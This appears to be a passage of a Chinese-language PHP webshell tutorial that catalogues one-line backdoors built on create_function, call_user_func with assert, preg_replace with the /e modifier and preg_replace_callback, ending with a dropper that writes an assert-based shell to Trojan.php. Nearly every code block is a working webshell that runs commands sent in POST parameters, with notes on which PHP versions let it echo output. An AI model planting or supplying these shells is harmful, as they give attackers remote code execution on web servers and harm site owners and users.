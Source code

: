 ```
<?php 
$fun = create_function('',$_POST['shell']);
$fun();
?>
```

**call_user_func()函数**

```php
<?php
@call_user_func(assert,$_POST['shell']);
//加了@就会忽略错误信息，不会显示具体报错eval 是因为是一个语言构造器而不是一个函数，不能被可变函数调用。
//不能使用eval，因为eval 是因为是一个语言构造器而不是一个函数，不能被可变函数调用，而call_user_func 有两个参数，第一个参数要求是函数。
?>
```

call_user_func()函数的第一个参数是被调动的函数，剩下的参数（可有多个参数）是被调用函数的参数

在测试环境（PHP Version 7.3.4），这个 webshell 是无法回显的

但是

```php
<?php
@call_user_func(assert,phpinfo());
?>
```

可以回显

原因是前者传入的是字符串，asset()函数触发了禁用，但是直接`assert(phpinfo())`传入的参数是函数，所以就不会触发函数禁用，可以正常回显。而如果使用测试环境（PHP Version 7.0.12）就可以了。

**preg_replace() /e函数**-5.5.0及以上被启用被下面的preg_replace_callback() 代替。

--如果在表达式末尾加上一个 e(eval modifier)，则第二个参数就会被当做 php代码执行。

```php
<?php   
    function fun(){  
        return $_POST['shell'];  
    }  
    @preg_replace("/test/e", fun(), "test");  
?>
```

**preg_replace_callback()**

```php
preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);
```

此 webshell的原理为：通过 `create_function` “创造”一个函数，它接受一个数组，并将数组的第一个元素$arr[0]传入assert。

**传入能生成木马的php文件，让php文件在目录下生成木马文件**

```
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
//上面这个 webshell 利用函数file_put_contents生成木马文件 Trojan.php 
```
